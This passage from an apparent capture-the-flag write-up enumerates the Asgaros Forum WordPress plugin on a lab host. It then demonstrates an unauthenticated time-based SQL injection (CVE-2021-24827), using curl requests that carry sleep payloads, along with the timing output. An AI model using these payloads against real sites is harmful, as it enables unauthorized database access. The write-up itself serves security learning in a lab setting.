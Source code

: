 ```
 |
 | Version: 1.15.12 (10% confidence)
 | Found By: Query Parameter (Passive Detection)
 |  - https://phoenix.htb/wp-content/plugins/asgaros-forum/skin/widgets.css?ver=1.15.12  

```

Of the four vulnerabilities identified, two require admin level access (XSS and SQLi), [one](https://wpscan.com/vulnerability/35272197-c973-48ad-8405-538bfbafa172) requires “Subscriber” level access to get SQLI, and the [top one](https://wpscan.com/vulnerability/36cc5151-1d5e-4874-bcec-3b6326235db1) is unauthenticated SQLI.

## Shell as wp-user

### SQLI

#### POC

Both of the SQL injections available to me (CVE-2021-24827 and CVE-2022-0411 (assuming I can create an account)) are both blind and time-based. I’ll start working with CVE-2021-24827, as it’s unauthenticated. I can get the POC from the `wpscan` [page](https://wpscan.com/vulnerability/36cc5151-1d5e-4874-bcec-3b6326235db1) and try it:

```

oxdf@hacky$ time curl -k 'https://phoenix.htb/forum/?subscribe_topic=1%20union%20select%201%20and%20sleep(10)'>/dev/null
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 30784    0 30784    0     0   2937      0 --:--:--  0:00:10 --:--:--  9729

real    0m10.488s
user    0m0.013s
sys     0m0.007s

```

It takes about 10 seconds to return (the result thrown to `/dev/null` since it doesn’t matter). That fits since the payload is a 10 seconds sleep (url decoded):

```

/forum/?subscribe_topic=1 union select 1 and sleep(10)

```

If I change the `sleep` to `sleep(1)` the time matches:

```

oxdf@hacky$ time curl -k 'https://phoenix.htb/forum/?subscribe_topic=1%20union%20select%201%20and%20sleep(1)'>/dev/null
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 30781    0 30781    0     0  20896      0 --:--:--  0:00:01 --:--:-- 20896

real    0m1.483s
user    0m0.021s
sys     0m0.000s

```
